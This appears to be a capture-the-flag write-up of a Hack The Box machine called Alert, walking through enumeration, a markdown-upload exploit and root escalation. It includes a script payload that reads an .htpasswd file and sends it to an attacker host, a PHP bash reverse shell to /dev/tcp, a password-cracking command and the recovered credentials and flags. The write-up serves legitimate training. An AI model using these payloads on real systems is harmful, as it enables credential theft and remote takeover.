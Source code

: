 ```yaml
---
sticker: emoji//1f534
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.
# RECONNAISSANCE
---

When we first access the website, we can find this:

![](Pasted%20image%2020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](Pasted%20image%2020250110150021.png)


# EXPLOITATION
---


The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.


```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](Pasted%20image%2020250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](Pasted%20image%2020250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](Pasted%20image%2020250110155457.png)

We are able to read `user.txt`:

![](Pasted%20image%2020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```


Let's begin PRIVESC

# PRIVILEGE ESCALATION
---


Let's run linpeas:


![](Pasted%20image%2020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:


![](Pasted%20image%2020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](Pasted%20image%2020250110161332.png)

```

We got a root shell, let's read flag:

![](Pasted%20image%2020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```

